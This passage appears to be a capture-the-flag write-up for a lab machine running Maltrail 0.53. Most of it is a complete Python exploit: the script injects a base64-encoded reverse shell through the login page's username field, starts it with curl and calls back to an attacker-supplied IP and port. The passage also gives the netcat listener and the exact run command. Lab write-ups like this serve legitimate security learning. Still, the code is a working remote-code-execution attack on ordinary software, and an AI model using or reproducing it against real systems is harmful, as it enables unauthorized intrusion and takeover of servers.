 * Mailtrail v0.53 VULN
  * lets find a vuln to prepare a PoC (proof-of-concept)
  * RCE (Remote Code Execution)

#### Payload

\#!/bin/python3&#x20;

import sys import os import base64

\#Arguments to be passed

**YOUR\_IP** = sys.argv\[1]

**YOUR\_PORT** = sys.argv\[2]&#x20;

**TARGET\_URL** = sys.argv\[3]

print("\n\[+]Started MailTrail version 0.53 Exploit")

\#Fail-safe for arguments

if len(sys.argv) != 4: print("Usage: python3 mailtrail.py ") sys.exit(-1)

\#Exploit the vulnerbility

def exploit(my\_ip, my\_port, target\_url): # Defining python3 reverse shell payload payload = f'python3 -c 'import socket,os,pty;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("{my\_ip}",{my\_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'' # Encoding the payload with base64 encoding encoded\_payload = base64.b64encode(payload.encode()).decode() # curl command that is to be executed on our system to exploit mailtrail command = f"curl '{target\_url}/login' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'" # Executing it os.system(command)

print("\n\[+]Exploiting MailTrail on {}".format(str(TARGET\_URL))) try: exploit(YOUR\_IP, YOUR\_PORT, TARGET\_URL) print("\n\[+] Successfully Exploited") print("\n\[+] Check your Reverse Shell Listener") except: print("\n\[!] An Error has occured. Try again!")

### User flag

#### Reverse Shell

`nc -nlvp 4444`

`python3 <script_file> <YOUR_IP> <PORT> <TARGET_URL>`&#x20;

`python3 exploit.py 10.10.14.7 4444 http://10.10.11.224:55555/test`

<figure><img src=".gitbook/assets/image (40).png" alt=""><figcaption><p>Reverse Shell obtained</p></figcaption></figure>
